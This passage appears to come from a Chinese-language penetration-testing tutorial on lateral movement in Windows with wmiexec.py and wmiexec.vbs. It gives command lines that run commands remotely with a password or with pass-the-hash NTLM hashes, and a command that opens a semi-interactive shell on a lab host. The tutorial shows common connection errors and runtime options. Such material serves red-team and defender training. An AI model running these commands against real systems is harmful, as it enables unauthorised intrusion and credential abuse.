 

 wmiexec.py 脚本使用如下:



```
python2 wmiexec.py administrator:root@192.168.10.20      
python2 wmiexec.py administrator@192.168.10.20 -hashes d480ea9533c500d4aad3b435b51404ee:329153f560eb329c0e1deea55e88a1e9
```




![](https://img-blog.csdnimg.cn/20200423113527852.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



如果对方主机未开启135或445，则报如下错：



```
[-] Could not connect: [WinError 10060] 由于连接方在一段时间后没有正确答复或连接的主机没有反应，连接尝试失败。
```




![](https://img-blog.csdnimg.cn/20201020233949421.png)



 如果对方主机开启了135和445，但是未开启admin$共享，则一直处于连接状态。



![](https://img-blog.csdnimg.cn/20201020234154248.png)



wmiexec.vbs

===========



wmiexec.vbs脚本通过VBS调用wmic来模拟psexec的功能。wmiexec.vbs可以在远程系统中执行命令并进行回显，获得远程主机的半交互式的shell。对于运行时间比较长的命令，例如ping、systeminfo，需要添加 -wait 5000或者更长时间的参数。在运行 nc 等不需要输入结果但需要一直运行的进程时，如果使用 -persist参数，就不需要使用 taskkill 命令来远程结束进程了。



```
#获得一个半交互式的shell      
cscript //nologo wmiexec.vbs /shell 192.168.10.20 administrator root
```




![](https://img-blog.csdnimg.cn/20200423111905397.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

===================================================================================================================================================================================================


